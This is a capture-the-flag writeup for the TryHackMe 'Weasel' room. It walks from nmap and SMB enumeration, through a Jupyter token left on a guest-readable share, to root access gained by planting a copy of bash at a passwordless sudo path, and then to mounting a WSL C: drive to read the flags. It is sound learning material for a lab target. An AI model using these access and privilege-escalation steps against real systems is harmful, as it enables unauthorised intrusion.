




# Weasel Writeup ([TryHackMe][2])

#### A great room for everyone who is involved in data science.

### Step 1: Enumeration

As usual, the first step involves a standard port scan. The command is conveniently written in the rooms description and much to my surprise isn't a red herring at all.

```bash
nmap -sC -sV 10.10.63.26

Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-21 13:55 BST
Nmap scan report for ip-10-10-63-26.eu-west-1.compute.internal (10.10.63.26)
Host is up (0.00025s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
|_  256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (EdDSA)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2023-03-12T11:46:50
|_Not valid after:  2023-09-11T11:46:50
|_ssl-date: 2023-06-21T12:56:33+00:00; -1s from scanner time.
8888/tcp open  http          Tornado httpd 6.0.3
| http-robots.txt: 1 disallowed entry 
|_/ 
|_http-server-header: TornadoServer/6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
MAC Address: 02:65:20:6F:CE:51 (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_nbstat: NetBIOS name: DEV-DATASCI-JUP, NetBIOS user: , NetBIOS MAC: 02:65:20:6f:ce:51 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-21 13:56:32
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.24 seconds
```

As promised in the description, we get 6 well-known ports.

 - SSH port 22 -&gt; we could try to brute force, but without at least a username that would be rather annoying
 - MSRPC port 135 -&gt; not much help at the moment either
 - SMB ports 139 and 445 -&gt; may come in handy
 - RDP port 3389 -&gt; could also be an attack vector if we get our hand on credentials
 - Jupyter port 8888 -&gt; That seems like to low hanging fruit here

Without doing much more enumeration of the machine, we know that we are on a Windows machine, and that we could have several attack vectors if we find some credentials.

For the time being, however, the only real starting point is the Jupyter notebook.

### Step 1a: Jupyter

If you haven't heard of Jupyter before, it is an interactive programming environment which is mainly used for data sciences and scientific computing. You can simply open the Notebook by using your browser.

```firefox
http://10.10.63.26:8888
```



Okay, this isn't going to be as easy as I thought. We obviously need a token to proceed. I did a little research to see if Jupyter has some known vulnerabilities that would allow us to guess or brute-force the token but couldn't find anything helpful.

That means we are back on square one.

### Step 1b: SMB

There a plenty of helpful tools to enumerate SMB shares. I usually start with **smbmap**. The following command was done on the attack box. You may need to install smbmap on your distribution.

```bash
smbmap.py -H 10.10.63.26

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

                                                                                                    
[+] IP: 10.10.63.26:445	Name: ip-10-10-63-26.eu-west-1.compute.internal	Status: Authenticated
[!] Something weird happened: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.) on line 925
```

Access denied, doesn't sound good.

Let's see if we can login with a guest user.

```bash
smbmap.py -H 10.10.63.26 -u guest

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

                                                                                                    
[+] IP: 10.10.63.26:445	Name: ip-10-10-63-26.eu-west-1.compute.internal	Status: Authenticated
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	datasci-team                                      	READ, WRITE	
	IPC$                                              	READ ONLY	Remote IPC
```

**Great!** It seems we we have read and write access to the ```datasci-team``` share.

Let's try to log in:

```bash
smbclient //10.10.63.26/datasci-team
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
```

Since I don't have a password I simply tried to hit enter, and here we go:

```bash
Try "help" to get a list of possible commands.
smb: \> 
```

On the share, you'll find plenty of more or less interesting files about Weasels.

And a folder named ```misc```:

```bash
smb: \misc\> ls
  .                                  DA        0  Thu Aug 25 16:26:47 2022
  ..                                 DA        0  Thu Aug 25 16:26:47 2022
  jupyter-token.txt                   A       52  Thu Aug 25 16:26:47 2022

smb: \misc\> get jupyter-token.txt 
getting file \misc\jupyter-token.txt of size 52 as jupyter-token.txt (25.4 KiloBytes/sec) (average 25.4 KiloBytes/sec)
```

How convenient, a file named jupyter-token.txt. I wonder what's in it?

*Well, it's a token for Jupyter...*

### Step 2: Jupyter, again

With our acquired token we can now access the notebook.



Very nice. If you look at the files, you'll see that these are the same files that you found on the SMB share.

The next step is pretty straight forward if you have used Jupyter before. But if you haven't, you might get stuck a little.

### Step 3: Getting a Terminal

To open a terminal in Jupyter noteboks you only have to hit the new button on the top right, and click Terminal.



A new tab will open and you'll get a nice shell.



### Step 4: Becoming root

Now that we have a terminal, we first want to know who we are and if we can find some easy wins:

```bash
(base) dev-datasci@DEV-DATASCI-JUP:~$ whoami
dev-datasci

(base) dev-datasci@DEV-DATASCI-JUP:~$ id
uid=1000(dev-datasci) gid=1000(dev-datasci) groups=1000(dev-datasci),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev)

(base) dev-datasci@DEV-DATASCI-JUP:~$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   8324   152 ?        Ss   05:47   0:00 /init
root         3  0.0  0.0   8324   152 tty1     Ss   05:47   0:00 /init
root         4  0.0  0.1  18924  2708 tty1     S    05:47   0:00 sudo /bin/su dev-datasci -c /home/dev-datasci/anaconda3/bi
root         5  0.0  0.1  18032  2092 tty1     S    05:47   0:00 /bin/su dev-datasci -c /home/dev-datasci/anaconda3/bin/jup
dev-dat+     6  0.0  2.6  76180 53712 ?        Rs   05:47   0:02 /home/dev-datasci/anaconda3/bin/python /home/dev-datasci/a
dev-dat+     9  0.0  0.1  18080  3632 pts/0    Ss   06:54   0:00 /bin/bash -l
dev-dat+    85  0.0  0.0  18660  1892 pts/0    R    07:00   0:00 ps aux

####  (base) dev-datasci@DEV-DATASCI-JUP:~$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   8324   152 ?        Ss   05:47   0:00 /init
root         3  0.0  0.0   8324   152 tty1     Ss   05:47   0:00 /init
root         4  0.0  0.1  18924  2708 tty1     S    05:47   0:00 sudo /bin/su dev-datasci -c /home/dev-datasci/anaconda3/bi
root         5  0.0  0.1  18032  2092 tty1     S    05:47   0:00 /bin/su dev-datasci -c /home/dev-datasci/anaconda3/bin/jup
dev-dat+     6  0.0  2.6  76180 53712 ?        Rs   05:47   0:02 /home/dev-datasci/anaconda3/bin/python /home/dev-datasci/a
dev-dat+     9  0.0  0.1  18080  3632 pts/0    Ss   06:54   0:00 /bin/bash -l
dev-dat+    85  0.0  0.0  18660  1892 pts/0    R    07:00   0:00 ps aux

(base) dev-datasci@DEV-DATASCI-JUP:~$ sudo -l
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci -c *
    
```

#### **Wait.** What's that?

We are allowed to run jupyter as root without password?

```bash
(base) dev-datasci@DEV-DATASCI-JUP:~$ cd .local/bin
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ ls
f2py  f2py3  f2py3.8
```

And there isn't a jupyter file at all?

Well, then let's try to get a root shell. We simply copy the bash file to the ```.local/bin``` folder and rename it to jupyter:

```bash
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ cp /bin/bash jupyter
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ ls
bash  f2py  f2py3  f2py3.8  jupyter
```

Now, we'll run the bash with root privileges.

*Note: You must provide the full path or ```sudo ./jupyter``` to the sudo command. If you try to run it with ```sudo jupyter```, even if you are in the right folder, you'd need to enter a password because the local folder is not in the $PATH variable.*

```bash
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ sudo ./jupyter

root@DEV-DATASCI-JUP:/home/dev-datasci/.local/bin# whoami
root
```

Great, it seems we have root priviliges now. Let's see where those flags are...

### Step 5: Finding flags

If you have done a couple of CTFs before, you know that the first folder to look for flags is the root folder.

Imaging my disappointment when I saw this...

```bash
root@DEV-DATASCI-JUP:~# cd /root
root@DEV-DATASCI-JUP:~# ls -la
total 4
drwx------ 1 root root 4096 Jun 21 07:12 .
drwxr-xr-x 1 root root 4096 Aug 25  2022 ..
-rw------- 1 root root   16 Jun 21 07:12 .bash_history
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x 1 root root 4096 Aug 25  2022 .local
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```

In fact, I couldn't find a single flag on the whole system. Not even the user flag.

I spent the next hour reading about Windows Subsystem for Linux (WSL...) until I stumbled upon the ```/mnt``` folder.

```bash
root@DEV-DATASCI-JUP:~# cd /mnt
root@DEV-DATASCI-JUP:/mnt# ls -la
total 0
drwxr-xr-x 1 root root 4096 Aug 25  2022 .
drwxr-xr-x 1 root root 4096 Aug 25  2022 ..
drwxrwxrwx 1 root root 4096 Aug 25  2022 c
root@DEV-DATASCI-JUP:/mnt#
```

It appears as if the Windows C: drive has been mounted. However, it was empty.

```bash
root@DEV-DATASCI-JUP:/mnt# cd c
root@DEV-DATASCI-JUP:/mnt/c# ls -la
total 0
drwxrwxrwx 1 root root 4096 Aug 25  2022 .
drwxr-xr-x 1 root root 4096 Aug 25  2022 ..
```

It seems odd that there isn't anything on C:. Not even the Windows folder.

Another hour of back and forth, I found a comment by Hastur on [StackOverflow][1]. To mount the C: drive within WSL, you need the following command:

```bash
root@DEV-DATASCI-JUP:/mnt# sudo mount -t drvfs C: /mnt/c
root@DEV-DATASCI-JUP:/mnt# cd c
root@DEV-DATASCI-JUP:/mnt/c# ls
ls: cannot read symbolic link 'Documents and Settings': Permission denied
ls: cannot access 'pagefile.sys': Permission denied
'$Recycle.Bin'             PerfLogs        'Program Files (x86)'   Recovery                     Users     datasci-team
'Documents and Settings'  'Program Files'   ProgramData           'System Volume Information'   Windows   pagefile.sys
```

**Finally! Some progress.**

From here on, it is simply about finding the flags. We'll start with the user flag (*Output shortened*).

```bash
root@DEV-DATASCI-JUP:/mnt/c# cd Users/
root@DEV-DATASCI-JUP:/mnt/c/Users# ls
 Administrator  'All Users'   Default  'Default User'   Public   desktop.ini   dev-datasci-lowpriv
root@DEV-DATASCI-JUP:/mnt/c/Users# cd dev-datasci-lowpriv/
root@DEV-DATASCI-JUP:/mnt/c/Users/dev-datasci-lowpriv# ls
...
 Desktop
 Documents
 Downloads
 ...
root@DEV-DATASCI-JUP:/mnt/c/Users/dev-datasci-lowpriv# cd Desktop
root@DEV-DATASCI-JUP:/mnt/c/Users/dev-datasci-lowpriv/Desktop# ls
desktop.ini  python-3.10.6-amd64.exe  user.txt
root@DEV-DATASCI-JUP:/mnt/c/Users/dev-datasci-lowpriv/Desktop# cat user.txt
THM{w*****************s}
```

And the root flag (I only show the direct route to the flag, I actually searched in the Downloads and Documents folders first):

```
root@DEV-DATASCI-JUP:/mnt/c/Users/dev-datasci-lowpriv/Desktop# cd /mnt/c/Users/Administrator/Desktop/
root@DEV-DATASCI-JUP:/mnt/c/Users/Administrator/Desktop# ls
 ChromeSetup.exe               'Visual Studio Code.lnk'   desktop.ini               root.txt
 Ubuntu2004-220404.appxbundle   banner.txt                python-3.10.6-amd64.exe
root@DEV-DATASCI-JUP:/mnt/c/Users/Administrator/Desktop# cat root.txt
THM{e*************************i}
```

### Final thoughts

For someone who works with Jupyter notebooks pretty much every day, **this room was super fun**. It took me way too long to mount those elusive C: drive, but I learned a great deal about WSL in the process.


#### I hope you enjoyed this writeup.

  [1]: https://superuser.com/questions/1107618/where-is-the-c-drive-in-the-wsl
  [2]: https://tryhackme.com/room/weasel
